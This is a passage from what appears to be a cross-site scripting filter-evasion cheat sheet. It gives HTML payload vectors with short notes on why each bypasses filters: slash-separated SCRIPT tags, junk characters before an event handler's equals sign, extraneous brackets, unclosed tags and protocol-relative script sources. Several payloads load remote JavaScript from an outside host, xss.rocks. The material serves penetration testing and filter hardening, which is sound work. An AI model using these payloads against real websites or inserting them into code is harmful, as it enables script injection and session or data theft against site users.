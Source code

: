 ```html
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```

Based on the same idea as above, however, expanded on it, using Rsnake's fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:

```html
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit noted that there is a slightly different behavior between the Trident (IE) and Gecko (Firefox) rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful in a attack if the system does not allow spaces:

```html
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

### Extraneous Open Brackets

This XSS vector could defeat certain detection engines that work by checking matching pairs of open and close angle brackets then comparing the tag inside, instead of a more efficient algorithm like [Boyer-Moore](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_string-search_algorithm) that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to suppress a JavaScript error:

```html
<<SCRIPT>alert("XSS");//\<</SCRIPT>
```

(Submitted by Franz Sedlmaier)

### No Closing Script Tags

With Firefox, you don't actually need the `\></SCRIPT>` portion of this XSS vector, because Firefox assumes it's safe to close the HTML tag and adds closing tags for you. Unlike the next attack, which doesn't affect Firefox, this method does not require any additional HTML below it. You can add quotes if you need to, but they're normally not needed:

```html
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
```

### Protocol Resolution in Script Tags

This particular variant is partially based on Ozh's protocol resolution bypass below, and it works in IE and Edge in compatibility mode. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The `.j` is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag:

```html
<SCRIPT SRC=//xss.rocks/.j>
```

(Submitted by Łukasz Pilorz)
